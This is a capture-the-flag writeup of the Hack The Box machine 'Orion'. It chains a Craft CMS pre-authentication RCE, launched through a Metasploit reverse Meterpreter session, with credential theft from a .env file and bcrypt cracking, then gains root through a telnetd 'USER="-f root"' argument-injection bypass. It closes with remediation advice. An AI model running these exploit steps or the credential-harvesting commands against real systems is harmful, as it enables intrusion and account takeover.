










# Orion — Hack The Box CTF Writeup

| Field | Details |
|---|---|
| Platform | Hack The Box — Fortress |
| Machine | Orion |
| Target | `orion.htb` / `10.129.244.146` |
| Operating System | Ubuntu 22.04.5 LTS |
| Author | Rully Miftahur Rozaq |
| Completion Date | 27 August 2026 |
| Initial Access | Craft CMS 5.6.16 — CVE-2025-32432 |
| Privilege Escalation | GNU Inetutils Telnet 2.7 — CVE-2026-24061 |

> **Authorization notice:** This assessment was performed against an authorized Hack The Box lab machine. The techniques in this writeup must only be used in systems where explicit authorization has been granted.

> **Publication notice:** Flag values are redacted. Some screenshots contain temporary lab-only credentials and password material. Redact screenshots 05–07 before publishing this writeup publicly.

## 1. Executive Summary

The Orion machine exposed SSH and an Nginx web server. Web enumeration identified a Craft CMS administration portal running version 5.6.16. This version was vulnerable to CVE-2025-32432, an unauthenticated remote code execution vulnerability in Craft CMS's asset transformation functionality. Exploiting the issue with Metasploit produced a PHP Meterpreter session as `www-data`.

The Craft CMS `.env` file disclosed local MariaDB credentials. Querying the Craft database revealed a bcrypt password hash for `adam@orion.htb`. The hash was cracked with Hashcat, and the recovered password provided SSH access as the local user `adam`.

Local service enumeration then identified a Telnet service listening only on `127.0.0.1:23`. GNU Inetutils Telnet 2.7 was vulnerable to CVE-2026-24061. By injecting `-f root` through the `USER` environment variable, the Telnet daemon invoked the system login program in pre-authenticated mode and returned a root shell. Both the user and root flags were retrieved successfully; their values are omitted from this report.

## 2. Attack Path

```text
Nmap and web enumeration
        ↓
Craft CMS 5.6.16 identified
        ↓
CVE-2025-32432 pre-authentication RCE
        ↓
PHP Meterpreter shell as www-data
        ↓
Craft .env database credentials
        ↓
Adam's bcrypt hash from MariaDB
        ↓
Hashcat password recovery and SSH login
        ↓
Local Telnet service on 127.0.0.1:23
        ↓
CVE-2026-24061 authentication bypass
        ↓
Root shell
```

## 3. Testing Environment

| Component | Value |
|---|---|
| Attacker OS | Kali Linux in UTM |
| Attacker VPN address | `10.10.14.7` |
| Target address | `10.129.244.146` |
| Target hostname | `orion.htb` |
| Externally exposed ports | TCP/22 and TCP/80 |
| Important local-only service | TCP/23 on `127.0.0.1` |
| Main tools | Nmap, Gobuster, cURL, Metasploit, MariaDB client, Hashcat, SSH, Telnet |

## 4. Reconnaissance

### 4.1 Port and service enumeration

I began by scanning the target to identify accessible ports, service versions, and common service information.

```bash
nmap -sV -sC -A -T4 10.129.244.146
```

The important results were:

```text
22/tcp open  ssh   OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http  nginx 1.18.0 (Ubuntu)
```

The HTTP service redirected requests to `http://orion.htb/`, indicating that the application relied on name-based virtual hosting.



*Figure 1 — Nmap detected OpenSSH on port 22, Nginx on port 80, and a redirect to `orion.htb`.*

I mapped the hostname to the target IP address in `/etc/hosts`:

```text
10.129.244.146  orion.htb
```

### 4.2 Web directory enumeration

I used Gobuster with the standard DIRB common wordlist to enumerate accessible paths.

```bash
gobuster dir -u http://orion.htb -w /usr/share/wordlists/dirb/common.txt
```

The scan identified several relevant paths:

```text
/admin      → /admin/login
/assets/    → asset directory
/index.php  → HTTP 200
/logout     → redirect to /
```



*Figure 2 — Gobuster identified the Craft administration login and supporting application paths.*

### 4.3 Technology identification

Opening the administration page revealed an Orion Telecom management portal. The footer disclosed **Craft CMS 5.6.16**.



*Figure 3 — The administration portal disclosed Craft CMS version 5.6.16.*

Craft CMS 5.6.16 is affected by **CVE-2025-32432**, a critical unauthenticated remote code execution vulnerability. The issue affects Craft CMS 5.x releases before 5.6.17 and is associated with unsafe processing in the image transformation endpoint.

## 5. Initial Access — Craft CMS RCE

### 5.1 Metasploit configuration

I selected the Metasploit module for CVE-2025-32432:

```text
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

The module was configured with the target hostname, the discovered asset ID, and my HTB VPN address:

```text
set RHOSTS orion.htb
set RPORT 80
set ASSET_ID 813
set LHOST 10.10.14.7
set LPORT 443
set SSL false
run
```

The module leaked the PHP session path `/var/lib/php/sessions`, injected the PHP Meterpreter payload, and opened a session successfully.



*Figure 4 — CVE-2025-32432 successfully opened a PHP Meterpreter session.*

I entered a system shell and confirmed that the web application ran as `www-data`:

```text
meterpreter > shell
whoami
www-data
```

When an interactive TTY was required, the shell could be improved with:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
export SHELL=/bin/bash
```

## 6. Database Credential Discovery

### 6.1 Reading the Craft CMS environment file

From the Craft installation directory, I inspected the `.env` file:

```bash
cd /html/craft
cat .env
```

The file disclosed a local MySQL/MariaDB configuration:

```text
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=<REDACTED>
```



*Figure 5 — The Craft CMS environment file exposed credentials for the local `orion` database.*

### 6.2 Connecting to MariaDB

Because the database server was bound to localhost, I connected from the compromised host:

```bash
mysql -h 127.0.0.1 -P 3306 -u root -p orion
```

After authentication, I inspected the available tables and queried the Craft CMS user record:

```sql
SHOW TABLES;
SELECT email, password
FROM users
WHERE email = 'adam@orion.htb';
```

The query returned a bcrypt hash using the `$2y$` prefix and cost factor `13`.



*Figure 6 — The Craft CMS database contained a bcrypt password hash for `adam@orion.htb`.*

## 7. Password Recovery and User Access

### 7.1 Cracking the bcrypt hash

I used Hashcat mode `3200`, which supports bcrypt hashes, and performed a dictionary attack with `rockyou.txt`:

```bash
hashcat -m 3200 -a 0 '<BCRYPT_HASH>' /usr/share/wordlists/rockyou.txt
```

Hashcat reported `Status: Cracked`, confirming that the plaintext password was present in the wordlist. The recovered password is intentionally redacted from the written report.



*Figure 7 — Hashcat successfully recovered the password associated with Adam's bcrypt hash.*

### 7.2 SSH access as Adam

I reused the recovered password against SSH:

```bash
ssh adam@orion.htb
```

Authentication succeeded, providing an interactive shell as `adam`. The user flag was located in Adam's home directory:

```bash
pwd
ls -la
cat user.txt
```

```text
User flag: <REDACTED>
```



*Figure 8 — Successful access to `/home/adam`, where `user.txt` was present.*

## 8. Privilege Escalation Enumeration

### 8.1 Sudo, groups, SUID, and capabilities

The `adam` account had no sudo privileges:

```bash
sudo -l
```

```text
Sorry, user adam may not run sudo on orion.
```

The account also belonged only to its own group:

```bash
id
```

```text
uid=1000(adam) gid=1000(adam) groups=1000(adam)
```

I then enumerated file capabilities and SUID binaries:

```bash
getcap -r / 2>/dev/null
find / -type f -perm -4000 2>/dev/null
```

The results primarily contained standard operating-system binaries and did not provide the intended escalation path.

### 8.2 Local service discovery

I inspected listening TCP services from the Adam shell:

```bash
ss -lntp
```

The result revealed a significant local-only service:

```text
127.0.0.1:23  LISTEN
```



*Figure 9 — Telnet was bound exclusively to `127.0.0.1:23`, so it could only be reached after obtaining local access.*

Version enumeration identified GNU Inetutils Telnet 2.7:

```bash
telnet --version
```

```text
telnet (GNU inetutils) 2.7
```

GNU Inetutils `telnetd` through version 2.7 is affected by **CVE-2026-24061**, an argument-injection vulnerability that permits authentication bypass through a crafted `USER` environment variable.

## 9. Privilege Escalation — Telnet Authentication Bypass

I set the local `USER` environment variable to `-f root` and used Telnet's automatic-login option against the loopback service:

```bash
USER="-f root" telnet -a 127.0.0.1
```

The vulnerable Telnet daemon failed to sanitize the supplied value before passing it to the system login program. As a result, the login process effectively received:

```bash
/bin/login -f root
```

The `-f` option treats the specified user as already authenticated. Since `telnetd` executed the login process with root privileges, the authentication check was bypassed and a root shell was returned.



*Figure 10 — CVE-2026-24061 returned an unauthenticated root shell through the loopback Telnet service.*

The final access level and flag location were verified with:

```bash
whoami
id
cat /root/root.txt
```

```text
whoami: root
Root flag: <REDACTED>
```

## 10. Troubleshooting Notes

| Symptom | Cause | Correction and Result |
|---|---|---|
| `su` returned `Authentication failure` | `su` requested the unknown root password, not Adam's password | This route was abandoned and other escalation vectors were enumerated. |
| `suod -l` returned `command not found` | The command contained a typing error | The command was corrected to `sudo -l`, which confirmed that Adam had no sudo permissions. |
| `find / -perm -400` produced an extremely large list | `-400` searches for files readable by their owner; it does not search for the SUID bit | The command was corrected to `find / -type f -perm -4000 2>/dev/null`. |
| Hashcat displayed a watchdog warning | UTM exposed a CPU OpenCL device without a supported hardware-temperature interface | The warning did not prevent cracking; Hashcat continued and recovered the password. |
| Capability and SUID enumeration did not reveal a direct shell | The listed capabilities and SUID binaries were mostly normal package defaults | Listening services were inspected next, revealing Telnet on loopback port 23. |

## 11. Key Command Explanations

| Command or option | Purpose |
|---|---|
| `nmap -sC -sV` | Runs default Nmap scripts and identifies service versions. |
| `-A` | Enables OS detection, version detection, default scripts, and traceroute. |
| `gobuster dir` | Enumerates directories and files using a wordlist. |
| `ASSET_ID 813` | Supplies the valid Craft CMS asset identifier required by the exploit path. |
| `mysql -h 127.0.0.1` | Forces a TCP connection to the local database instead of relying on a Unix socket. |
| `hashcat -m 3200` | Selects the bcrypt hash mode. |
| `find ... -perm -4000` | Finds regular files with the SUID permission bit set. |
| `ss -lntp` | Lists listening TCP sockets and, where permitted, associated processes. |
| `telnet -a` | Enables automatic login and sends the local user value during Telnet negotiation. |
| `USER="-f root"` | Injects arguments that cause the vulnerable Telnet daemon to invoke `login -f root`. |

## 12. Findings and Remediation

### 12.1 Craft CMS pre-authentication RCE

- **Issue:** Craft CMS 5.6.16 was vulnerable to CVE-2025-32432.
- **Impact:** An unauthenticated attacker could execute arbitrary PHP code and obtain a shell as the web-service account.
- **Remediation:** Upgrade Craft CMS to a fixed release, at minimum 5.6.17 for this vulnerability, and preferably the latest supported release. Review web logs and PHP session storage for evidence of exploitation.

### 12.2 Exposed application secrets

- **Issue:** The Craft CMS environment file contained a highly privileged local database account.
- **Impact:** Compromise of the web account led directly to database access and disclosure of user authentication hashes.
- **Remediation:** Use a dedicated least-privileged database account, restrict filesystem permissions on `.env`, rotate exposed credentials, and prevent development settings from being enabled in production.

### 12.3 Weak user password

- **Issue:** Adam's bcrypt hash was resistant to direct reversal but the underlying password appeared near the beginning of a common wordlist.
- **Impact:** The recovered password enabled SSH access as a local user.
- **Remediation:** Enforce long, unique passwords and prevent password reuse between application and operating-system accounts.

### 12.4 Vulnerable local Telnet service

- **Issue:** GNU Inetutils Telnet 2.7 was vulnerable to CVE-2026-24061.
- **Impact:** Any local user able to reach the loopback service could bypass authentication and obtain a root shell.
- **Remediation:** Remove or disable Telnet, replace it with SSH, and upgrade GNU Inetutils to a release containing the upstream fix. A loopback-only listener reduces remote exposure but does not protect against an attacker who already has local access.

## 13. Lessons Learned

1. Version information displayed by an application can provide the decisive link between enumeration and a known vulnerability.
2. A web-shell foothold should be followed by careful review of application configuration files because they frequently contain database credentials and other secrets.
3. Strong password hashing does not compensate for a weak password. Bcrypt cost factor 13 slowed each guess, but a common password was still recovered quickly.
4. Failed SUID and capability checks do not mean that privilege escalation is unavailable. Local-only network services must also be enumerated.
5. Binding a vulnerable administrative service to localhost is not a complete security control. Once a low-privileged account is compromised, loopback services become reachable.
6. Small syntax mistakes can produce misleading enumeration results. Understanding permission notation such as `400` versus `4000` prevents wasted time.

## 14. References

- [Craft CMS advisory for CVE-2025-32432](https://craftcms.com/knowledge-base/craft-cms-cve-2025-32432)
- [NVD — CVE-2025-32432](https://nvd.nist.gov/vuln/detail/CVE-2025-32432)
- [Rapid7 Metasploit module documentation](https://www.rapid7.com/db/modules/exploit/linux/http/craftcms_preauth_rce_cve_2025_32432/)
- [GNU Inetutils security advisory on oss-security](https://www.openwall.com/lists/oss-security/2026/01/20/2)
- [NVD — CVE-2026-24061](https://nvd.nist.gov/vuln/detail/CVE-2026-24061)

## 15. Completion Checklist

- [x] Target and authorization context documented
- [x] Reconnaissance commands and results included
- [x] Initial access supported by evidence
- [x] Credential discovery and user access documented
- [x] Troubleshooting steps preserved
- [x] Privilege escalation explained and evidenced
- [x] User and root flag values redacted
- [x] Screenshots placed chronologically with descriptive captions
- [x] Remediation and reusable lessons included

